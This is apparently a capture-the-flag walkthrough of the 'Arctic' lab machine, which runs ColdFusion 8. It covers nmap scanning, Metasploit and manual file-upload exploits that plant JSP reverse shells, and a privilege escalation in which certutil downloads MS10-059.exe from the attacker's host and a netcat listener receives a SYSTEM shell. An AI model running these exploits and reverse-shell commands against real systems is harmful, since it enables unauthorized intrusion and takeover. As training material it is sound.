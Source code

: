 # Arctic

<pre>nmap -p 135,8500,49154 -sV -Pn 10.10.10.11        

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC</pre>

![alt text](<../Images/Arctic 1.png>)

- CFIDE directory stands for ColdFusion Integrated Development Environment
- Directory in Adobe ColdFusion installations that contains various files and resources used by ColdFusion applications

![alt text](<../Images/Arctic 2.png>)

![alt text](<../Images/Arctic 3.png>)

![alt text](<../Images/Arctic 4.png>)

## Method 1 Metasploit

<pre>exploit/windows/http/coldfusion_fckeditor

set RHOSTS

set LHOST 

set LPORT

set PAYLOAD java/jsp_shell_reverse_tcp

set HTTPCLIENTTIMEOUT 150

run

msf6 exploit(windows/http/coldfusion_fckeditor) > exploit</pre>

<pre>C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled



C:\ColdFusion8\runtime\bin>net user
net user

User accounts for \\ARCTIC

-------------------------------------------------------------------------------
Administrator            Guest                    tolis                    
The command completed successfully.</pre>

<pre>C:\ColdFusion8\runtime\bin>net user tolis
net user tolis
User name                    tolis
Full Name                    tolis
Comment                      
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            22/3/2017 9:07:58   
Password expires             Never
Password changeable          22/3/2017 9:07:58   
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   16/5/2024 2:23:36   

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
The command completed successfully.</pre>

## Windows Exploit Suggester - Privilege Escalation

- Save output from `systeminfo` into sysinfo.txt
- Update the database

<pre>./windows-exploit-suggester.py --update</pre>

<pre>./windows-exploit-suggester.py --database 2024-05-14-mssb.xls --systeminfo sysinfo.txt</pre>

<pre>[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical</pre>

- Use `MS10-059:Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important`

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/README.md

- Transfer to target machine

<pre>python -m SimpleHTTPServer</pre>

<pre>certutil -urlcache -f http://10.10.14.8/MS10-059.exe MS10-059.exe</pre>

- Execute `MS10-059.exe` on target machine

<pre>MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR></pre>

- Setup netcat listener on attacking machine

<pre>nc -nvlp 5555</pre>

<pre>MS10-059.exe 10.10.14.8 5555</pre>

<pre>nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49666
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system</pre>

## Method 2 Manual Exploitation

https://github.com/nipunsomani/Adobe-ColdFusion-8-File-Upload-Exploit/blob/main/exploit.py

msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=443 -f raw > shell.jsp

![alt text](<../Images/Arctic 5.png>)

<pre>python uploader.py 10.10.10.11 8500 shell.jsp 
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. 
Support for it is now deprecated in cryptography, and will be removed in the next release.
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp</pre>

- Setup netcat listener

<pre>nc -nvlp 443</pre>

- Browse to 

http://10.10.10.11:8500/userfiles/file/exploit.jsp